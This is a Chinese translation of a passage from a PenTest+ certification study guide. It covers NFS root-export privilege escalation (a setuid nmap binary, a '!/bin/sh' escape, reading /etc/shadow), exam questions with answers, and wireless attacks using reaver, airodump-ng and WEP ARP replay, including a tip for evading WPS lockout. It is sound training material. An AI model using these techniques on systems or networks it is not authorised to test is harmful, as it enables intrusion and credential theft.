**注意** rpcinfo 输出可能非常重要，特别是在通过 SSH 隧道或代理挂载 NFS 开放共享时，此时文件系统仅在局域网内共享。通常，NFS 会向服务器发起 RPC 调用并获取挂载远程文件系统所需的适当端口；所有这些都在连接过程中在后台发生。当您与外部目标建立反向隧道时，在通过隧道挂载时，您需要在挂载选项的挂载命令语法中指定挂载端口。一旦您的隧道配置为将所有挂载流量转发到 SSH 目标，您就可以使用转发的挂载端口挂载文件系统（例如，`mount -o port=2049,mountport=44096,proto=tcp 127.0.0.1:/home /home`）。

在渗透测试过程中，您可能会遇到共享给网络上所有人且几乎没有针对远程攻击保护的 NFS 文件系统。在本节中，我们将提供一些示例，说明如何利用以 root 访问权限导出的 NFS 文件系统，并利用这些权限针对 NFS 客户端提升权限。为了跟进演练，您可以假设我们在网络上具有以下级别的访问权限：

-   对内部网络上攻击笔记本电脑的 Root 级访问权限
-   向所有人共享文件系统的 NFS 服务器（无访问控制）
-   对网络上 NFS 客户端的已攻陷用户级访问权限

使用图 3-18 中提供的信息，我们可以看到 `/home` 文件系统共享给了“所有人”。接下来，我们可以使用 `mount` 命令挂载 `/home` 文件系统，并将其挂载到本地文件系统上未使用的目录中，如图 3-19 所示。为了在 UNIX 中挂载文件系统，您必须是特权用户（即 root）。现在，在 home 目录中，有四个潜在的用户账户。问题是：我们是否以 root 特权挂载了文件系统？在图 3-20 中，我们创建了一个名为“am-i-root”的文件并列出了目录内容，发现我们是以 UID“0”创建该文件的。


**图 3-19** 挂载 /home 文件系统并验证文件系统权限


**图 3-20** Setuid nmap 可执行文件


**提示** NFSv3 及更早版本将数字 UID 和 GID 映射到 NFS 文件系统上的文件和目录。当您使用 NFSv3 从客户端挂载 NFS 共享时，您可能会看到 UID 或 GID 代替用户名或组名，因为您的本地操作系统无法将它们映射，原因可能是您不在域中（即 LDAP）或用户不存在。在实战中，如果您能够挂载 NFS 文件系统并看到 UID 值而不是用户名，您可以在本地主机上创建一个具有相同 UID 值的用户账户，并冒充受害者用户名在文件系统中导航。在 NFSv4 中，可以禁用 UID 和 GUID 映射功能，因为客户端和服务器现在可以配置为通过网络交换用户名和组名。

现在，从我们的测试笔记本电脑，我们可以概念上修改任意文件，并将工具移动到远程文件系统上的任何位置，且以 root 身份操作。使用 NFS 客户端上的用户级访问权限，我们复制一个二进制文件，以便从攻击者笔记本电脑上将该程序的所有权更改为 root 并应用 setuid 位，这样当程序执行时，它将以 root 特权（文件所有者）运行。我们选择使用 nmap 二进制文件，因为 NFS 客户端上的版本仍然支持交互功能，这将允许我们绕过 Bash 和 Bourne Shell setuid shell 程序的限制。在我们将 nmap 二进制文件复制到 NFS 共享上的用户主目录后，从我们的攻击笔记本电脑上，我们将 nmap 的所有权更改为 root:root，然后使用 `chmod` 命令应用粘滞位并设置为 4777，如图 3-20 所示。

然后，从 NFS 客户端以用户账户身份，我们使用交互模式执行了 setuid nmap 二进制文件，这允许您从 Nmap 内部与 shell 交互。从 Nmap 提示符下，我们执行了 `!/bin/sh` 以根据有效用户 ID（EUID）值降级到具有 root 特权的 shell 提示符，如图 3-21 所示，并顺便读取了 `/etc/shadow` 文件。想象一下，如果该用户是一个拥有对网络上所有 LDAP 客户端远程登录访问权限的 LDAP 用户账户，且 `/home` 文件系统挂载在每台主机上。该漏洞的影响将更加显著，因为用户概念上可以在网络上的每台主机上获得 root 特权。


**图 3-21** Nmap 交互模式


攻击笔记本电脑提供了将 `nmap` 二进制文件的所有者和执行位更改为 root 的能力。如果没有能够挂载 NFS `/home` 文件系统的攻击平台的 root 访问权限，这次攻击将不可能实现。某些 NFS 文件系统在导出时会使用 `nosuid`、root squash（root 压制），或仅限特定主机的受限 root 访问，因为这些是 NFS 的推荐最佳实践，也是缓解此类权限提升攻击的缓解措施。从本质上讲，这可以剥夺执行 setuid 程序的能力，并强制 NFS 将 root UID 映射为用户 `nfsnobody`。然而，正如我们之前提到的，你仍然可能在攻击笔记本电脑上（你拥有 root 权限的地方）创建本地账户，这些账户的 UID 是 NFS 服务器已知的，并冒充该用户，以便从 NFS 文件系统访问目录和文件。


**提示** 除了利用 Nmap 的交互功能外，你还可以使用一些 Shell 转义技术来绕过 Shell setuid 程序限制。其中一些包括使用内置程序，如 `vi` 或 `awk`。从 NFS 客户端，你会将程序从你的文件路径复制到 NFS 文件共享。然后从攻击笔记本电脑，应用 root 所有权和 setuid 位。接着你应该能够以 root 权限执行这些程序。


### 章节回顾

基于网络的攻击，如名称解析漏洞利用，可以帮助渗透测试人员对组织资产实施中间人攻击。一旦在本地网络内建立了立足点，这些类型的攻击就会帮助渗透测试人员。此过程通常涉及欺骗网络上列出的合法主机。利用网络上暴露的文件共享是一种从网络上的匿名访问或目标主机上的基本用户访问提升权限的方法。这些技术提供了测试网络配置不一致性以及组织外部防火墙背后的协议弱点的能力。

################ 问题

**1.** 哪些协议提供名称解析？（选择所有适用项。）

**A.** `DNS`

**B.** `ARP`

**C.** `LLMNR`

**D.** `DIG`

**2.** 你的团队成功使用 Responder 投毒了一个用于 SMB 挂载请求的 LLMNR 请求，并恢复了一个用户名和密码哈希。然而，你的团队尝试使用传递哈希技术，但不起作用。导致此失败的可能原因是什么？

**A.** 他们使用的是 LM 哈希值，而不是 NTLM 哈希。

**B.** 他们使用的是 NTLMv2 哈希值，无法用于“传递哈希”。

**C.** LM 和 NTLM 哈希值之间可能缺少 ":"。

**D.** NTLMv2 哈希用额外的字符填充。

**3.** 选择对手会用来通过快速与目标进行大量交互以消耗目标资源的 DoS 技术。

**A.** 资源泄露暴露

**B.** 过度分配

**C.** 洪水攻击

**D.** 持续客户端交互

**4.** 哪个命令标志告诉 `hping3` 使用随机源 IP 地址？

**A.** `--random-source`

**B.** `--rand-source`

**C.** `-S`

**D.** `--S`

**5.** 在 Nmap 扫描期间，你在扫描结果中收到“host prohibited”原因。哪个协议负责将该消息传回你的扫描主机？

**A.** `TCP`

**B.** `UDP`

**C.** `ARP`

**D.** `ICMP`

**6.** 在执行 STP 发现之前，你的团队询问如何确定根交换机使用的是哪个版本的 STP 类型（即 RSTP、MSTP）。你如何回答？

**A.** 通过检查更新帧中的网桥协议数据单元

**B.** 通过查看数据包的 TCP 头部

**C.** 通过检查数据帧中的网桥协议数据单元

**D.** 通过检查管理帧中的网桥协议数据单元

**7.** 选择可用于实施 VLAN 跳跃的两种技术。

**A.** ARP 欺骗

**B.** 双重标记

**C.** DNS 欺骗

**D.** 交换机欺骗

**8.** 你的 Nmap 扫描在一台 Windows 服务器上识别出端口 445/tcp 开放，其中一个常见共享可用且可匿名访问。此共享允许扫描器枚举域上的其他用户和服务。你在扫描期间可能枚举了哪个网络共享？

**A.** `ADMIN$`

**B.** `C$`

**C.** `IPC$`

**D.** `HOME$`

**9.** 你成功通过网络以受限权限挂载了一个 NFS 共享。在浏览网络文件系统时，你注意到文件和目录未显示所有者或组名。这可能的原因是什么？

**A.** 你没有使用 root 权限挂载文件系统，因此你的系统无法解析 UID 值。

**B.** NFS 文件系统配置不正确，这意味着你可能利用该弱点。

**C.** NFS 共享上分配给文件和目录的 UID 和 GID 值未映射到你的本地主机。

**D.** NFS 服务器只知道 UID 0 映射到 root 账户。如果你在本地主机上创建一个 UID 值为 NFS 文件之一的账户，NFS 服务器将不再能够读取该文件。

#### 答案

**1.** **A, C.** 地址解析协议 (ARP) 用于将 MAC 地址解析为 IP 地址，而非主机名，DIG 是一个用于查询 DNS 域名服务器的程序，并非协议。

**2.** **B.** NTLMv2 哈希无法像 NTLM 哈希那样进行传递。NTLMv2 哈希是 NTLM 的衍生版本，但基于质询-响应算法。你必须先解密 NTLMv2 哈希，并使用明文值进行身份验证。

**3.** **C.** 在洪水攻击中，攻击者会通过快速与目标进行大量交互来消耗目标的资源。

**4.** **B.** `--rand-source` 命令标志可用于随机化源地址。

**5.** **D.** 互联网控制消息协议 (ICMP) 用于在网络上在主机之间传递消息，并使用不同的类型（例如：类型 3 - 目标不可达）和代码（即：代码 10 - 主机管理禁止）来解决通信路径中的故障。

**6.** **A.** Wireshark 将通过检查网桥协议数据单元 (BPDU) 为你提供 STP 类型的版本（STP、RSTP 或 MST），BPDU 是网络上交换机之间定期组播的更新帧，用于确定端口是处于转发还是阻塞状态（防止环路）以及在选举过程中确定根网桥。

**7.** **B, D.** VLAN 跳跃是一种用于获取另一 VLAN 资源访问权限的攻击向量。MITRE ATT&CK 框架将 VLAN 跳跃标识为一种基于网络的隐藏技术 (ID: PRE-T1092)。实现 VLAN 跳跃使用两种方法：交换机欺骗和双重标记。

**8.** **C.** IPC$ 共享是一个空会话连接。Microsoft 允许匿名用户通过此连接执行枚举用户和网络共享等操作。ADMIN$ 和 C$ 共享是受限于特权用户的隐藏管理共享。虽然听起来可信，但 HOME$ 共享并非典型共享。


**9.** **C.** NFSv3 及更早版本会将数字 UID 和 GID 映射到 NFS 文件系统上的文件和目录。当你使用 NFSv3 从客户端挂载 NFS 共享时，可能会看到 UID 或 GID 代替用户名或组名，因为你的本地操作系统无法将其映射，这可能是因为你不在域中（即 LDAP），或者该用户不存在。

## 第 4 章

### 无线和射频攻击

在本章中，你将学习

- 无线攻击方法
- 特定的无线攻击及其使用时机
- 无线密码破解的奥秘

PenTest+ 考试目标涵盖基于无线和射频 (RF) 的漏洞与利用。在本章中，我们将重点介绍渗透测试人员需要了解的有关无线网络协议的一些基础知识，这些协议见于 802.11（路由器和接入点）、802.15（蓝牙）、射频识别 (RFID) 和近场通信 (NFC) 技术。我们将研究用于与无线设备交互、进行发现以及攻击无线设备的各种工具。

################ 802.11 无线

无线渗透测试通常旨在评估无线网络的覆盖范围、流经该网络的流量是否可能被攻击者拦截（或影响），以及攻击者是否能无线访问该网络。这涉及评估网络实现中可能存在的缺陷以及网络的覆盖范围，并需要专用硬件。渗透测试人员需要了解这些网络的工作原理，以便识别实现弱点并为工作选择合适的硬件和软件工具。

##### 无线网络概述

在讨论如何攻击无线网络之前，让我们花一点时间了解它们是如何工作的。请记住，作为渗透测试人员，你的工作不仅是证明系统可以被攻破，还要推荐如何修复它们。要做到这一点并成为一名成功的攻击者，了解帧的结构、网络的实现方式以及加密标准在无线网络中的使用方式将大有裨益。

###### 802.11 无线标准

首先，让我们谈谈无线网络如何传输数据。无线网络使用定义的功率范围内的特定射频和信道。每个频率范围被划分为多个信道。联邦通信委员会 (FCC) 定义并限制了可应用于支持 Wi-Fi 的设备（如典型的家用无线路由器）的功率范围。IEEE 802.11 ([`www.ieee.org`](https://www.ieee.org)) 标准定义了无线网络。表 4-1 描述了渗透测试人员在项目中可能遇到的常见无线标准（也称为协议）。


**表 4-1** 无线标准

正如你所见，Wi-Fi 网络工作在 2.4 GHz 或 5 GHz 频段。每个频段保持其自身特性并支持各种部署场景。2.4 GHz 频段被分为 14 个信道，每个信道的带宽在 20 到 22 MHz 总间隔之间。许多 802.11 协议都支持此频谱，并提供更长范围的覆盖；然而，与 5 GHz 相比，传输速度要慢得多。5 GHz 频段被分为 20 多个信道，支持比 2.4 GHz 频段宽得多的带宽，从而实现更快的传输速度，但覆盖面积较小。

当 2.4 GHz 频段拥挤时，网络更有可能经历较慢的传输速度。较新的无线路由器和网络设备支持双频段，具备在 2.4 GHz 和 5 GHz 频谱频段上收发数据的能力。此选项提供了灵活性，并可支持组织决定使用 5 GHz 频段，以减少当许多接入点 (AP) 在同一信道上竞争时发生干扰的可能性。


**注意** 法律可能会根据你的地理位置和联邦法规，管辖基于频率和功率使用的允许传输内容。FCC 在《联邦法规》第 47 编中记录了其规则和法规。第 15 部分适用于射频设备，包括计算机中的消费级无线设备。

###### 无线模式

遵循 802.11 标准的无线网络设备能够根据网络需求在不同模式下运行。这些模式是具有独立安全考量的不同实现。无线网络的两种模式是 `ad hoc` 和 `infrastructure`。

在 `ad hoc` 模式下，无线客户端（站点或 STA）以点对点模式连接，这通常被称为独立基本服务集 (IBSS)。这是最不常见的方法，在大多数渗透测试项目中也最不可能发现。图 4-1 提供了配置为 `ad hoc` 模式的计算机的基本示例。


**图 4-1** Ad hoc 模式

`Infrastructure` 模式是在家庭和商业应用中最常见的配置。在 `infrastructure` 模式下，无线客户端与一个称为无线 AP 的中心设备通信，而不是像在 `ad hoc` 模式下那样直接相互通信。这通常被称为基本服务集 (BSS) 或无线局域网 (WLAN)。AP 管理无线网络并广播一个区分大小写、32 位字母数字字符的服务集标识符 (SSID) 来宣告其存在。SSID 是 WLAN 的名称。当无线客户端在范围内并配置为使用相同的 SSID 时，可以与 AP 关联。然而，AP 在允许客户端加入网络前可能会施加额外要求，例如身份验证凭据（用于各种加密标准）和兼容的无线数据速率。

AP 通过分布系统 (DS) 促进与有线网络或额外 AP 的连接。在同一局域网 (LAN) 内连接多个 AP 可为无线客户端提供大得多的覆盖区域。每个 AP 都有一个关联的基本服务集标识符 (BSSID)，用于描述其唯一的介质访问控制 (MAC) 地址。当多个 AP 在同一 WLAN 上广播相同的 SSID 时，这提供了网络清晰度。由于所有无线网络数据包都包含发送方的 BSSID，因此可以追踪数据包。当 DS 连接多个 AP 时，形成扩展服务集 (ESS)。ESS 为无线客户端提供移动性，使它们可以在覆盖区域内自由漫游。扩展服务集标识符 (ESSID) 是 ESS 的网络名称。图 4-2 展示了 DS 如何用于扩展 WLAN 配置的服务区域。


**图 4-2** Infrastructure 模式

###### 802.11 帧

在流量内部，无线数据报是在 OSI 模型传输层通过无线网络传输的数据逻辑块。非常类似于典型的 IEEE 802.3 以太网网络，帧存傗着急需的信息，例如发送传输设备的物理和逻辑属性。帧将所有这些信息打包到数据包中，并定义信息传输给通信接收者时的开始和结束。IEEE 802.11 标准定义了与无线网络通信相关的三种主要帧（参见表 4-2）。


**表 4-2** 802.11 帧


信标帧包含用于关联的 AP 详细信息属性，包括 SSID、加密类型、MAC 地址、信道和供应商信息。图 4-3 显示了 Wireshark 中数据包捕获的 SSID 值。发现没有任何加密的开放无线网络，会让你爱管闲事的邻居极其轻松地连接并开始窃听你的网络。在无线扫描过程中，这些信息将变得非常有用。


**图 4-3**  Wireshark 中数据包捕获的 SSID 值


**考试提示**  窃听是指在另一方不知情的情况下偷听私人对话的过程。你可能会在考试题目中看到这个术语。

##### 无线安全与加密标准

为了保护传输中数据的机密性并防止未经授权访问通过无线网络运行的设备，许多无线网络实施安全标准并使用加密。用于小型办公室/家庭办公室 (SOHO) 环境的常见无线安全实现包括 Wi-Fi Protected Setup (WPS)、Wired Equivalent Privacy (WEP)、Wi-Fi Protected Access (WPA)、WPA2 和新的 WPA3。此处提供的信息将帮助你理解攻击原理，并为其生效的原因提供背景。

**WPS**  WPS 协议旨在允许用户建立安全的无线网络，并降低将额外主机关联到网络的整体复杂性。这本身并非一种加密实现，而是一种在不使用复杂密码短语的情况下，利用 WPA/WPA2 安全性来保护初始无线设备设置的方式。WPS 常见于消费类设备，可能使用带内方法，例如在设置期间使用个人识别码 (PIN) 或按下按钮以启动网络发现过程，或带外方法，如近场通信 (NFC)，即通过物理邻近性发起连接。针对考试，我们将重点关注带内方法。按钮连接 (PBC) 会发起 PIN 码请求。PIN 码可以在设备的图形用户界面 (GUI) 中配置，也可能印在设备标签上。PIN 设置的其他实现包括内部注册器和外部注册器。在第一种情况下，AP 具有某种接口，客户端可在其中输入 PIN 以协商连接，通常通过 WPA/WPA2 进行。在第二种情况下（外部），AP 提供一个必须在客户端上输入的 PIN，以发起连接。

WPS PIN 为八位数字。但 WPS 并非一次性处理所有八位数字来处理认证请求。相反，它在认证期间分三部分处理此 PIN。最后一位是校验和。如果此校验和不正确，AP 将发送 NACK 消息以结束会话。如果校验和正确，它将尝试验证第一部分（四位数字）。同样，如果不正确，AP 将发送 NACK。如果前半部分正确，则评估第二部分，即三位数字。


**考试提示**  WPS 需要用户交互才能发起通信。它使用 WPA/WPA2 安全性和八位数字 PIN。攻击工具包括用于离线 Pixie Dust 攻击或在线暴力破解 PIN 攻击的 `reaver`、`wash` 和 `wifite`。

**WEP**  WEP 作为 802.11 原始标准的一部分被纳入，在 WPA 出现之前，它是保护 802.11a 和 802.11b 无线网络的唯一加密协议。WEP 依赖于接入点和无线网络上的客户端之间共享的密钥。WEP 加密过程使用 RC4 流密码保护无线网络的机密性。RC4 是一种对称密钥密码，用于将短密钥扩展为无限的伪随机密钥流。发送方将明文消息与密钥流进行 XOR 运算以生成密文。密文的接收方将使用相同的共享密钥生成相同的密钥流，并将密钥流与密文进行 XOR 运算以还原明文消息。为了验证数据包在传输过程中未被修改，WEP 使用填充有 CRC-32 校验和的完整性检查字段，该字段作为有效载荷的加密部分被包含在内。还使用 24 位初始化向量 (IV) 来增强共享密钥，并为每个数据包生成不同的 RC4 密钥。IV 是一个二进制数，即固定大小的输入，有助于降低使用相同密钥流加密两个密文的概率。图 4-4 提供了 WEP 加密过程的概述。


**图 4-4**  WEP 加密标准


**考试提示**  WEP 是 WPA 之前的标准。加密流中的密钥重用（24 位 IV）使其容易被破解，也容易受到分片攻击和重放攻击。使用 `aireplay-ng` 生成 IV 样本，使用 `aircrack-ng` 破解密钥。也可以使用 `wifite` 对 WEP 发起攻击。

**WPA**  WPA 作为 WEP 的临时替代方案推出，不需要消费者更换硬件以支持新的安全措施。相反，大多数供应商发布了可安装在现有设备上的软件/固件更新。基于 802.11i 无线安全标准，WPA 有多种版本：WPA、WPA2 和 WPA3。这些版本均具有个人版或企业版模式。

在个人版模式下，用户使用单个共享密码（预共享密钥 [PSK]），每个终端设备的密码相同。PSK（密码）长度可在 8 到 63 个 ASCII 字符之间。这适用于使用不兼容 802.1x 设备的小型可信网络，或无法使用强制门户的访客网络。在企业版模式下，用户通过认证服务（如远程认证拨号用户服务 [RADIUS]）使用证书或凭据（用户名和密码）进行认证。这些机制更安全，最常见于企业业务网络。每个进行认证的用户都将与 AP 拥有唯一的会话，这使得恶意用户在嗅探同一 SSID 上的数据包时更难破解单个密钥。

WPA 将 WEP 中的 63 位和 128 位加密提升到了 256 位加密技术。在 WEP 加密被破解后，WPA 实现了临时密钥完整性协议 (TKIP)。TKIP 是一种对称加密，仍使用相同的 WEP 编程和 RC4 加密算法，但它使用更强且唯一的加密密钥加密每个数据包。它还包含一些额外的安全算法，由加密消息完整性检查、包含哈希的 IV 序列机制、确保每 10,000 个数据包生成新密钥的重新生成密钥机制，以及为增加加密强度而设的逐包密钥混合函数组成。这些设计旨在增加针对社会工程学、重放和注入攻击、弱密钥攻击和伪造尝试的额外保护。WPA2 引入了高级加密标准 (AES) 以取代 TKIP。2006 年后，所有带有 Wi-Fi 商标的新设备都强制要求 WPA2 认证。


###### WPA 和 WPA2 四次握手

WPA 和 WPA2 使用四次握手来建立连接。如图 4-5 所示，一旦客户端（或申请者）和 AP 建立关联请求，它们就会使用 `PBKDF2` 算法、`PSK` 和 `SSID` 派生出一个称为成对主密钥（`PMK`）的共享密钥。客户端生成一个 `SNonce`，AP 生成一个 `ANonce`。AP 将 `ANonce`（四次握手的消息 1）发送给客户端。然后 AP 和客户端使用 `PMK`、`ANonce`、`SNonce` 以及客户端和 AP 的 `MAC` 地址派生出一个临时的成对临时密钥（`PTK`）。`PTK` 在 64 字节中包含五个独立的密钥：密钥确认密钥（`KCK`）；密钥加密密钥（`KEK`）；一个临时密钥（`TK`），仅在会话结束前有效；一个 `Tx` 密钥；和一个 `Rx` 密钥。客户端使用 `KCK` 生成消息完整性校验（`MIC`），该校验值随 `SNonce` 一起在四次握手的第二条消息中发送。由于客户端和 AP 使用相同的值、相同的算法和相同的共享密钥，它们都能验证 `MIC` 并解密对方的消息。此时，AP 和客户端可以在不通过网线共享密钥的情况下加密传输中的数据。客户端和 AP 之间的临时密钥仅在会话结束前有效。会交换一个组临时密钥（`GTK`），用于加密无线网络上的广播流量。


**图 4-5**  四次握手的详细示意图^(1)


**注意**  如果你想详细了解 `PBKDF2` 函数枯燥的加密细节，请参阅 RFC2898 第 5.2 节。

###### WPA3 增强功能

与 WPA2 一样，WPA3 使用 AES，并最终采用四次握手。然而，WPA3 旨在实现完美前向保密。这意味着加密密钥会发生变化，其泄露不会导致在泄露发生之前加密的数据被破解。此外，WPA3 使用一种称为对等实体同时认证（`SAE`）的机制，试图解决 WPA 和 WPA2 易受字典攻击的漏洞。`SAE` 是一种密钥交换类型，也称为 Dragonfly（蜻蜓）。与 WPA 和 WPA2 一样，AP 和申请者从一个共享的加盐密钥开始。然而，在握手过程中，它们会商定参数，以配合椭圆曲线密码学（`ECC`）或有限域密码学（`FFC`）使用。^(2) 然后每一方执行计算上不可行的操作来创建一个非对称密钥，其主密钥现在在原始的四次握手中作为 `PMK` 的替代品进行交换。这一次，破解 `PMK` 永远无法提供原始的共享密钥。它也不会授予访问所有先前网络流量的权限，因为密钥每次都会改变。这是一个非常简化的解释，但如果你想详细了解其工作原理，可以阅读 RFC7664 中的所有内容。


**考试提示**  WPA 使用四次握手和共享口令。握手实现中的弱点容易受到字典攻击（`PMKID` 哈希捕获和 WPA 握手捕获）。解除认证攻击强制进行新的握手，以捕获生成猜测所需的信息。攻击工具包括 `aircrack-ng`、`aireplay-ng`、`airodump-ng`、`wifite`、`cowpatty`、`genpmk` 和 `hashcat`。WPA3 通过 Dragonfly 密钥交换的额外安全性隐藏了口令。WPA3 对降级攻击和时序攻击较弱。Dragonblood 漏洞针对 Dragonfly 密钥交换。

##### 无线测试设备

无线网卡接收并传输信息到无线网络上的其他设备。换句话说，你需要一个无线天线才能观察和与无线网络交互。选择天线时，你需要考虑支持的频段、芯片组和类型。

大多数天线会列出它们支持哪些 802.11 标准，你需要知道你的目标标准是什么，以便选择最佳硬件。有些支持多个标准，这很有用。然而，在某些情况下，性能考量会让你选择更专业的天线。考试中不太可能考查品牌细节，但你应该意识到这一需求。

许多内置无线网卡不允许你使用监听模式，而这是窃听的必要条件。外置网卡解决了这个问题，通常具有更好的范围。但找到一款适用于 Kali Linux 等操作系统的合适网卡可能是一项挑战。网卡形状和尺寸各异，可支持单频段或双频段（2.4 GHz 和 5 GHz）网路。决定无线网卡与操作系统兼容性的两个最重要因素是芯片组（硬件）和驱动程序（软件）。以下是支持监听模式和注入、且兼容 Kali 操作系统的常见芯片组：

- Atheros `AR9271`
- Ralink `RT3070`
- Ralink `RT3572`


**注意**  一旦你有了天线并安装了网卡，在 Kali Linux 中，可以使用 `iwlist` 命令显示兼容的信道、频率、加密能力以及接口已关联的 AP。可以使用 `iw` 和 `iwconfig` 命令通过启用或禁用接口，或手动将其配置到无线网络上来操作接口。

至于天线类型，假设你想在无线评估中保持隐蔽。你选择的天线类型将影响你需要多近、需要在哪里才能获得良好信号，以及你可以使用的信号强度。方向性和增益是你最需要考虑的两个天线属性。

Wi-Fi 天线要么是定向的，要么是全向的。定向天线具有相对较好的信号强度，但需要相对于信号进行更精确的瞄准。这意味着只要你能将天线指向目标并拥有良好的视线，你就可以在更远的地方。但并非所有定向天线都用于远距离。大多数 RFID 徽章读取器都是平板近距离定向天线。全向天线可以在任何方向工作，但通常会牺牲强度。因此，你需要更近才能工作。

当我们谈论信号强度时，实际上是在谈论增益。天线增益（`dBi`）是衡量天线在接收和发送数据时性能好坏的相对指标。在检查无线网络的物理边界时，这个数字有助于确定信号覆盖范围，并且检测设备在寻找流氓无线设备时通常会用到它。


**注意**  LearnTomato 有一篇关于 Wi-Fi 天线的好文章，网址为 [`learntomato.flashrouters.com/how-to-increase-wifi-range-with-the-right-wifi-antenna/`](https://learntomato.flashrouters.com/how-to-increase-wifi-range-with-the-right-wifi-antenna/)。

##### 攻击无线

现在我们准备好谈论有趣的部分：攻击。在本节中，我们将讨论针对不同无线实现的攻击，以及针对无线网络的一些通用战术。如果你计划创建一个家庭实验室进行实验，建议测试环境具备以下基本项目：

- 笔记本电脑（标准键盘布局），安装 Kali Linux 并配备支持注入的无线网卡
- 支持 WEP、WPA 和 WPS 的无线路由器
- 可用于生成流量的无线客户端

###### 无线扫描与发现


####### 踩点与寻网驾驶

**踩点** 是一种监视技术，用于发现 SSID、路由器供应商信息和信号强度、MAC 地址、信道、访问控制保护（加密）等。这一过程比仅在手机上启用 Wi-Fi 查看能否找到可连接的开放接入点要复杂一些。踩点通常会捕获无线数据以及全球定位系统（GPS）数据，以便绘制发现内容的地图。这通常会构建一组特定于该区域的信息，类似于你在无线地理位置引擎（WiGLE）中可能找到的内容，网址为 [`wigle.net/`](https://wigle.net/)。

**寻网驾驶** 是一种在移动车辆中对某区域的接入点进行勘测的战术过程。其目标是初步侦察，并确定特定关注区域内的无线网络和潜在目标。如果客户拥有大型园区或设施，此技术可用于模拟真实场景，并演示各类威胁行为者的对抗能力。

#### Aircrack-ng 套件

[Aircrack-ng](https://www.aircrack-ng.org) 是一款开源软件，提供了一套用于进行射频通信监控和 Wi-Fi 网络安全测试的工具。**Airodump-ng** 是 `aircrack-ng` 工具集中包含的一款流行无线嗅探工具，可在渗透测试期间用于发现和验证无线目标。`Airodump-ng` 有助于识别接入点的 ESSID 和 BSSID 以及与 AP 关联的任何站点/客户端 MAC 地址，包括各种属性，如其连接的信道、传输速率以及连接 AP 的访问控制（加密）。

`Airodump-ng` 是一款命令行工具，在 Kali Linux 中原生安装。然而，在使用该工具之前，你必须先将无线网卡置于监听模式，以便计算机能够监听无线网络并注入数据包。使用 `airmon-ng` 命令（包含在 `aircrack-ng` 套件中）可将你的网卡配置为监听模式。图 4-6 显示了为 `wlan1` 接口启动 `airmon-ng` 监听模式的示例：


**图 4-6**  airmon-ng

```
airmon-ng start wlan1
```


**注意**  如果你的无线网卡在 Kali 中无法进入监听模式，请尝试使用 `rfkill unblock all` 终止进程。然后再尝试将网卡置于监听模式。如果仍然不行，你的无线网卡可能不支持监听模式。

一旦网卡配置为可在网络上监听和注入数据包，你就可以开始工作了。现在，你可以使用 `airodump-ng` 开始捕获你的网卡和天线范围内各个无线网络的数据包。如果在命令行中未指定信道，`Airodump-ng` 将在信道间跳频，以识别它能接收到信标帧的无线设备。信道跳频会使从目标捕获数据包变得更加困难。在这种情况下，你可以锁定在单个信道上，以便针对特定范围的 AP 进行目标收集。图 4-7 显示了如何使用 `airodump-ng` 根据 AP 的特定信道设置捕获数据包，并将输出转储为多种格式，包括 TXT、PCAP 和 CSV，以便在 Microsoft Excel 中轻松解析。一个重要的注意事项是每个站点（客户端）和 BSSID（路由器）的 PWR 读数。这是无线信号强度，以分贝毫瓦（dBm）为单位，用负值表示。数值越接近零，信号越强，你距离设备越近。


**图 4-7**  airodump-ng

```
airodump-ng -c 4,5 wlan1mon -w channel4-5.out
```


**考试提示**  [Kismet](https://www.kismetwireless.net) 也可以进行 802.11 嗅探并执行无线入侵检测，且其 GPS 支持比 `airodump-ng` 更好。你可以选择使用 `Kismet` 进行踩点和绘图，或用于寻网驾驶，随后使用 `airodump-ng` 进行进一步检查。如果你将数据保存为 PCAP 格式，可以在 [Wireshark](https://wireshark.org) 中重放，它提供了分离帧以进行进一步数据包检查的功能。

####### 破解 WPS

对于 WPS，让我们首先使用 Kali 中名为 `wash` 的工具来识别 WPS 网络。尽管 WPS 设计为需要用户交互才能启动数据交换，但某些设备仍可被发现。`Wash` 还支持对检测到的无线网络进行主动探测，以识别它们是否支持 WPS。图 4-8 提供了使用 `wash` 定位 WPS 网络的示例。


**图 4-8**  使用 wash 定位 WPS 网络

一旦你识别出一个由 WPS PIN 控制的目标，就可以使用 Kali Linux 中的 `reaver` 命令对 WPS PIN 进行暴力破解攻击。`Reaver` 攻击注册器功能中的 WPS 实现弱点，只需 11,000 次尝试即可猜出正确的 WPS PIN。图 4-9 显示了 `reaver` 成功针对无线中继器恢复 WPS 网络 PIN 的示例输出。你可以使用以下命令语法执行 `reaver`：


**图 4-9**  成功恢复 WPS PIN

```
# reaver -i <interface> -b <target MAC of AP> -c <channel> -vvv -K 1
```

命令选项包括以下内容：

*   **`-i`**  你的无线接口名称
*   **`-b`**  目标 AP 的 MAC 地址
*   **`-c`**  要锁定的信道
*   **`-vvv`**  详细级别
*   **`-K`**  执行像素粉尘攻击（暴力破解 WPS PIN）


**注意**  无线中继器（也称为范围扩展器）会重新广播来自 AP 的相同信号。通过重复信号，它能够为超出 AP 范围的客户端创建另一个可关联的网络，从而扩展无线覆盖范围。这类设备推荐用于住宅环境。

一旦你获得了 PIN，AP 就会给你 WPA 密码。你可以使用 `reaver` 命令恢复密码。图 4-10 提供了成功恢复用于连接无线网络的密码的示例。


**图 4-10**  成功恢复 WPA 密码


**警告**  此攻击并非对所有启用 WPS 的设备都有效。某些设备要求用户按下路由器外部的按钮，这只会在短时间内启用 WPS，从而限制了攻击窗口。其他设备内置了针对暴力破解 PIN 尝试的保护机制，在过多失败尝试后会将尝试连接网络的设备锁定。这是由 AP 对发起连接的网络接口卡的硬件地址应用 MAC 过滤来实现的。你可以尝试在 `reaver` 中设置延迟并运行 `macchanger` 更改无线接口的 MAC 地址，以绕过 PIN 锁定。

####### 破解 WEP

首先，请回顾图 4-4。当你知道正在发送的数据的未加密值（即 ARP 数据包）并且知道 IV 时，这会减少你为了推导加密密钥所需猜测的事项。你看，大多数 WEP 实现使用 IV 为 0 初始化硬件，然后按 1 递增。这可以在几小时内遍历 24 位 IV 空间（取决于网络活动量）。这迫使网络将 IV 重新初始化回 0 并重复使用 IV。


######## 通过重放 ARP 数据包恢复 WEP 密钥

让我们演练一个通过在网络上重放（注入）ARP 数据包来生成新的唯一 IV，从而恢复 WEP 密钥的练习。我们假设你有一个启用了 WEP 的接入点，且网络上至少配置了一个能够生成 ARP 流量的无线客户端（例如，在练习期间持续 ping 一个不存在的主机），并且你使用 Kali Linux 作为测试主机。

######### 1. 列出可用的无线接口

在 Kali Linux 中打开一个终端窗口，列出所有可用的无线网卡接口。

```
########## airmon-ng
```


**提示** 你也可以使用命令 `iwconfig` 列出可用的无线网卡接口。

######### 2. 启用监听模式

